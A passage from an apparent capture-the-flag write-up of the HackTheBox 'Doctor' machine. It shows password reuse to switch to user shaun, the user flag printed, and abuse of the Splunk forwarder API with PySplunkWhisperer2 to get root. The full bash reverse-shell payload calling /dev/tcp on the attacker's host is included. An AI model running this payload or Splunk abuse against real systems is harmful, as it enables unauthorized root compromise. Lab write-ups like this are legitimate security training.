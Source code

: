 We find a password reset request containing the text "Guitar123". Let's see if this works for user "shaun", and as shown below, we are able to login as "shaun" and grab the user flag:

```
web@doctor:~$ su shaun
su shaun
Password: Guitar123

shaun@doctor:/home/web$ id
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
shaun@doctor:/home/web$ cd ~
cd ~
shaun@doctor:~$ ls
ls
user.txt
shaun@doctor:~$ cat user.txt
cat user.txt
3cf63ef3d8c2ec496728f347dcafa6ec
shaun@doctor:~$ 
```

We know from our earlier enumeration and research that if we exploit the splunk forwarder we can get RCE. We have also confirmed that splunk is indeed being run as the "root" user.

## Privilege Escalation

Let's try the creds "shaun:Guitar123" and see if we can login to the [https://10.10.10.209:8089/services](https://10.10.10.209:8089/services) page.

![](<../../.gitbook/assets/19 (1) (1).JPG>)

Nice, we're in. Now, we can use the tool PySplunkWhisper2, which is mentioned in the article [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/), to get a reverse shell as root. The tool can be found here:

{% embed url="https://github.com/cnotin/SplunkWhisperer2" %}

First, clone the repo and navigate to the PySplunkWhisperer2 directory. Start a new listener, and run the following command:

```
└─$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password 'Guitar123' --payload 'bash -c "bash -i >& /dev/tcp/10.10.14.6/7777 0>&1"' --lhost 10.10.14.6
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpxun9c1n9.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.6:8181/
10.10.10.209 - - [20/Nov/2021 08:49:55] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```